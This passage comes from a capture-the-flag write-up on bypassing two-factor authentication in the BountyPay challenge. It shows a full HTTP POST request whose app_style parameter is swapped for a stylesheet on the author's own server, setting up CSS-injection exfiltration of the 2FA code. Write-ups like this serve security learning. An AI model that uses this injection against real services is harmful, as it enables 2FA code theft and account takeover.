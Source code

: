 ![cf_array](./images/2FA-CSS-2020-06-1107_31_30.png)

## 2FA Identity Bypass 
When we get to the 2FA validation page, we can observe that a POST request is made with a really interesting ```app_style``` parameter that seems to load a CSS stylesheet.  
Replacing the ```www.bountypay.h1ctf.com``` with mine allowed me to receive a callback with few headers telling me which scenario to go to.   
```
POST /pay/17538771/27cd1393c170e1e97f9507a5351ea1ba HTTP/1.1
Host: app.bountypay.h1ctf.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 73
Origin: https://app.bountypay.h1ctf.com
Connection: close
Referer: https://app.bountypay.h1ctf.com/pay/17538771/27cd1393c170e1e97f9507a5351ea1ba
Cookie: token=eyJhY2NvdW50X2lkIjoiQWU4aUpMa245eiIsImhhc2giOiIzNjE2ZDZiMmMxNWU1MGMwMjQ4YjIyNzZiNDg0ZGRiMiJ9
Upgrade-Insecure-Requests: 1

app_style=https%3A%2F%2Fmyredactedvps.eu%2Fcss%2Funi_2fa_style.css
```  
  

So, the CSS stylesheet is loaded by the mobile application where the 2FA code is going to appear!  
First time for me with this attack vector, so I spent a lot of time reading up on attack scenarios about this subject.  
